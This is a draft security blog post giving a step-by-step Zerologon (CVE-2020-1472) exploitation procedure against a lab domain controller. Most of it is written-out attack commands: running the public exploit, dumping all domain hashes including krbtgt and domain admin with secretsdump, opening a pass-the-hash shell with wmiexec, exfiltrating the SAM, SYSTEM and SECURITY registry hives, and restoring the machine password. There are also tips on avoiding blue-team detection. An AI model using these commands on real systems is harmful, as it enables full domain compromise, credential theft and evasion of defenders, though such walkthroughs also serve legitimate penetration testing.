 ```yaml
---
layout: posts
title: "DRAFT - CVE-2020-1472, Netlogon Vulnerability"
categories:
  - Windows
tags:
  - CVE-2020-1472
  - netlogon
  - zerolocon
date: 2020-09-17
---
```


# Preamble
In September 2020, the [whitepaper](https://www.secura.com/pathtoimg.php?id=2055) for the CVE-2020-1472 vulnerability and the [Zerologon testing script](https://github.com/SecuraBV/CVE-2020-1472) were released.  
This post is a step-by-step procedure for using a specific exploit released by dirkjanm in [Github](https://github.com/dirkjanm/CVE-2020-1472) and restoring the changes made in order to avoid problems in the Domain Controller's functionality after the execution of the exploit.

# Exploit Usage
+ For this demo the Domain Controller NetBios name is `DC01`, its IP is `172.16.40.5` and the domain is `worklab.local`.
+ Impacket version 0.9.22 is already installed.
```sh
python cve-2020-1472-exploit.py dc01 172.16.40.5
```

![exploit-success](/assets/exploit-success.png)

+ Use impacket secretsdump to dump the credentials stored in ntds
  ```sh
  secretsdump.py -just-dc -no-pass worklab/DC01\$@172.16.40.5

  # Since hash :31d6cfe0d16ae931b73c59d7e0c089c0 is the default empty password we can also use the command
  secretsdump.py worklab/DC01\$@172.16.40.5 -hashes :31d6cfe0d16ae931b73c59d7e0c089c0
  ```
  ![creds-dumped](/assets/creds_dumped.png)

+ As we can see we have the hashes of all users (including domain admin), the krbtgt hash, while the hash of the `DC01$` is empty (`:31d6cf0.....`)

# Restoring DC password
+ As it is mentioned in the [whitepaper](https://www.secura.com/pathtoimg.php?id=2055) this exploit changes the password of the DC that is stored in AD (ntds) and not the one stored locally in SAM and in `HKLM\SECURITY\Policy\Secrets\$machine.ACC`. This causes the DC to misbehave in various unpretectible ways.
+ So, after getting the hashes above, it is advisable to restore the password of the DC.
+ We can get the original password from SAM. Two methods are demonstrated here.

## First Method
+ Download SAM from the DC by getting a shell with the administrator hashes we got earlier
```
wmiexec.py -hashes aad3b435b51404eeaad3b435b51404ee:217.... worklab/user1@172.16.40.5
  reg save HKLM\SYSTEM system.save
  reg save HKLM\SAM sam.save
  reg save HKLM\SECURITY security.save
  get system.save
  get sam.save
  get security.save
  del /f system.save
  del /f sam.save
  del /f security.save
exit
```
![getting_sam](/assets/getting_sam.png)

+ **Be aware of the opsec considerations when using impacket wmiexec**

+ Get password from the files downloaded locally
```
secretsdump.py -sam sam.save -system system.save -security security.save LOCAL
```
![machine-pass](/assets/machine-pass.png)
+ Restore password in ntds
```
python restorepassword.py worklab.local/dc01@dc01 -target-ip 172.16.40.5 -hexpass 88b5869b8daad1f8a5177aa1d96c120e9da01e....
```
![restore-pass](/assets/restore-pass.png)
+ Check that the restore was successfull
```
# This should give us an error since the DC01 password is not empty now
secretsdump.py -just-dc -no-pass worklab/DC01\$@172.16.40.5
```
![check-restore](/assets/check-restore.png)

## Second Method - Impacket Version 0.9.21
+ With latest ipacket method we can use secretsdump with domain admin hash that we got previously in order to get locally stored password of the DC
```sh
secretsdump.py worklab/user1@dc01 -target-ip 172.16.40.5 -hashes aad3b435b51404eeaad3b435b51404ee:217e....
```
![getting_sam-secretsdump](/assets/getting_sam-secretsdump.png)

+ **Note that in order to do so it starts service RemoteRegistry which is something that Blue teams can spot.**

+ After that we continue as in First Method.
